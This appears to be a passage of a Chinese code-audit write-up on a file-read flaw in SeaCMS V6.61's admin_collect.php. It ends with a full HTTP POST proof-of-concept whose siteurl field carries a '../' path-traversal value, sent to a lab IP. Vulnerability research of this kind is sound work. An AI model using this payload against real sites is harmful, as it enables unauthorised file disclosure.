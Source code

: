 这里意思是如果页面传入`$action`为addrule，且`step`为2时，进入这个循环，并且包含templets/admin_collect_ruleadd2.htm。

所以我在根目录下创建了一个index.txt，并写入hello world尝试读取。

![img](code-review-pic/23.png)

最后的payload

```
  POST /1/seacms%20V6.61/upload/houtai/admin_collect.php?action=addrule HTTP/1.1
  Host: 172.16.244.129
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:47.0) Gecko/20100101 Firefox/47.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
  Accept-Encoding: gzip, deflate
  Referer: http://172.16.244.129/1/seacms%20V6.61/upload/houtai/admin_collect.php?action=addrule
  Cookie: PHPSESSID=ua6ajr7ncm6gd7ikuqmmktf3s7; safecode=1; Tiny_autologin=5898644673VFIIAQQDAARSAAZcDVcGDQ1UBAZUW1JXBAYABgcDVVU; cck_lasttime=1527667187818; cck_count=0
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 320
  
  step=2&id=0&itemname=test&intodatabase=0&getherday=0&siteurl=•../index.txt&coding=gb2312&playfrom=&downfrom=&autocls=0&classid=0&inithit=0&pageset=0&pageurl0=&pageurl1=&istart=1&iend=1&pageurl2=&Submit=%E4%BF%9D%E5%AD%98%E4%BF%A1%E6%81%AF%E5%B9%B6%E8%BF%9B%E5%85%A5%E4%B8%8B%E4%B8%80%E6%AD%A5%E8%AE%BE%E7%BD%AE&showcode=1
```
